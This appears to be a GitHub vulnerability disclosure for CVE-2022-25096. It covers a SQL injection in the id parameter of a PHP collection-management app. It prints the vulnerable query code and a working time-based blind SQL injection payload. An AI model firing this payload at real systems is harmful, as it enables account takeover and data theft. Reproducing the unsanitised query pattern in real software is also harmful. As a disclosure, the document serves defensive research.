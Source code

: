 ## [CVE-2022-25096](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25096)

## [Vendor](https://www.sourcecodester.com/users/tips23)

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/2022/CVE-2022-25096/Docs/Screenshot%202022-02-28%20141345.png)

## Description:
Home Owners Collection Management System v1.0 was discovered to contain a SQL injection vulnerability via the id parameter in `/members/view_member.php`.
The `id` parameter from Owners Collection Management System v1.0 appears to be vulnerable to SQL injection attacks. 
The attacker can take administrator account control and also of all accounts on this system, also the malicious user can download all information about this system.

Status: CRITICAL

## Vulberable code:

```php
<?php 
     if(isset($id)):
     $collection = $conn->query("SELECT * FROM `collection_list` where member_id = '{$id}' order by date(date_collected) desc");
     while($row = $collection->fetch_assoc()):
   ?>
```

[+] Payloads:

```mysql
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=0' AND (SELECT 4743 FROM (SELECT(SLEEP(5)))BjBt)-- ogKy&page=members/view_member
---
```

## Automation:

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/2022/CVE-2022-25096/Docs/Screenshot%202022-02-28%20151208-auto.png)

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/edit/main/2022/CVE-2022-25096)

## Proof and Exploit:
[href](https://streamable.com/y6qdio)
